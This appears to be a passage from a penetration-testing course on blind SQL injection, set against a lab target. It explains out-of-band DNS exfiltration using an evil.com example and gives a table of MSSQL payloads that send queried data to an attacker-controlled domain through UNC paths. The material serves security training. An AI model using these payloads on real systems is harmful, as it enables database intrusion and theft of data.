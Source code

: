 At this point we know:

- We are in the `digcraft` database
- There are `2` tables:

  - `flag`
  - `userAgents`
- The `flag` table has `1` column:

  - `flag`

## Further Enumeration

We can keep going with the technique from this section to dump out all the values from these tables. For this section's interactive portion you will need to adapt the script to find the number of rows in `flag`, dump out the values (of the `flag` column), and then submit the value as the answer.


# Out-of-Band DNS

## Theory

If conditions permit, we may be able to use `DNS exfiltration`. This is where we get the target server to send a DNS request to a server we control, with data (encoded) as a `subdomain`. For example, if we controlled `evil.com` we could get the target server to send a DNS request to `736563726574.evil.com` and then check the logs. In this example, we extracted the value `secret` hex-encoded as `736563726574`.

`DNS exfiltration` is not specific to `time-based` SQL injections, however, it may be more useful in this case as `time-based` injections take much longer than `boolean-based`, are not always accurate, and sometimes are just plain impossible. It's always a good idea to include testing for DNS exfiltration in your `methodology`, as you may miss a blind injection vulnerability otherwise (for example if nothing is returned and the query is run synchronously leading to no delay in response time).

## Techniques

The specific techniques vary for the different SQL languages, in `MSSQL` specifically here are some ways. They all require different permissions, so they may not work in all cases. In all these payloads, `SELECT 1234` is a placeholder for whatever information it is you want to exfiltrate. In our specific example of `Digcraft Hosting`, the flag is what we want to target. `YOUR.DOMAIN` should be replaced with a domain you control so you can read the exfiltrated data out of the DNS logs. We'll go over this more specifically further down in the section.

| SQL Function | SQL Query |
| --- | --- |
| `master..xp_dirtree` | `DECLARE @T varchar(1024);SELECT @T=(SELECT 1234);EXEC('master..xp_dirtree "\\'+@T+'.YOUR.DOMAIN\\x"');` |
| `master..xp_fileexist` | `DECLARE @T VARCHAR(1024);SELECT @T=(SELECT 1234);EXEC('master..xp_fileexist "\\'+@T+'.YOUR.DOMAIN\\x"');` |
| `master..xp_subdirs` | `DECLARE @T VARCHAR(1024);SELECT @T=(SELECT 1234);EXEC('master..xp_subdirs "\\'+@T+'.YOUR.DOMAIN\\x"');` |
| `sys.dm_os_file_exists` | `DECLARE @T VARCHAR(1024);SELECT @T=(SELECT 1234);SELECT * FROM sys.dm_os_file_exists('\\'+@T+'.YOUR.DOMAIN\x');` |
| `fn_trace_gettable` | `DECLARE @T VARCHAR(1024);SELECT @T=(SELECT 1234);SELECT * FROM fn_trace_gettable('\\'+@T+'.YOUR.DOMAIN\x.trc',DEFAULT);` |
| `fn_get_audit_file` | `DECLARE @T VARCHAR(1024);SELECT @T=(SELECT 1234);SELECT * FROM fn_get_audit_file('\\'+@T+'.YOUR.DOMAIN\',DEFAULT,DEFAULT);` |
